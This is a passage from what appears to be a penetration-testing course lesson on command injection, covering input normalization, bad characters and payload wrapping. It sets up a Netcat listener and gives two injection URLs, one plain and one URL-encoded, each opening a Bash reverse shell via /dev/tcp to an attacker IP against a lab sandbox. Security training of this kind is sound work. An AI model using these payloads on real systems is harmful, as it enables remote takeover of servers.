 This Learning Unit covers the following Learning Objectives:

1. Understand what we mean by Input Normalization.
2. Understand typical means of Input Sanitization and how we can bypass them.
3. Understand what Blind OS Command Injection is and how we can work with it.

In the following sections, we will discuss input normalization and sanitization. These techniques will help us deliver an accurate payload in a variety of scenarios.

Before we move on to bypassing typical input sanitization through blocklisted strings, we'll talk about normalization and sending payloads in a clean fashion.

#### 11.2.1. Typical Input Normalization - Sending Clean Payloads
Web applications often perform _input normalization_ on user-supplied data, processing it and manipulating it in a way that could adversely affect our command injection payload.

Our payload travels a sometimes-tricky path before it is processed by the target operating system. It begins in our browser or script, is processed by the target web server, then by the target web app (which often performs normalization and sanitization), and it may be passed to the operating system through a system function where it is executed. Each of these steps will process and may alter our payload and negatively affect the outcome. In the following sections, we will discuss some techniques we can use to ensure our payload is executed correctly, even as it passes through these various processes. Specifically, we will discuss bad character replacement, character escapes, _URL encoding_,[1](https://portal.offsec.com/courses/web-200-28380/learning/command-injection-35143/dealing-with-common-protections-35191/typical-input-normalization-sending-clean-payloads-35153#fn-local_id_254-1) and payload wrapping.

After getting system-level command execution, we make it a priority to obtain a reverse shell to gain control of our target through a terminal interface.

As we begin preparing our payload, we should consider "bad" characters, which have an assigned meaning along the payload's path. These characters could negate our payload.

Bad characters can often be mitigated by wrapping commands with bash -c '[COMMAND]' as the single apostrophes will inform the target server that "this counts as valid parameter data", rather than interpreting it as a new parameter entirely.

Let's demonstrate this with an example.

Before we begin, let's set up a _Netcat_ listener (nc) to catch a Bash reverse shell on port 9090.

We'll listen (bind) to the 0.0.0.0 interface (-l), request verbose output (-v), print numerical IP addresses and ports in all output (-n), and bind to port 9090 (-p 9090). Let's combine these arguments and run our listener.

```bash
kali@kali:~$ nc -nlvp 9090
listening on [any] 9090 ...
```

Now that we have our Netcat listener established, let's consider a sample payload.

```bash
http://ci-sandbox:80/nodejs/index.js?ip=127.0.0.1|bash -c 'bash -i >& /dev/tcp/192.168.189.101/9090 0>&1'

http://ci-sandbox/nodejs/index.js?ip=127.0.0.1|bash+-c+%27bash+-i+%3E%26+/dev/tcp/192.168.45.222/9090+0%3E%261%27
```
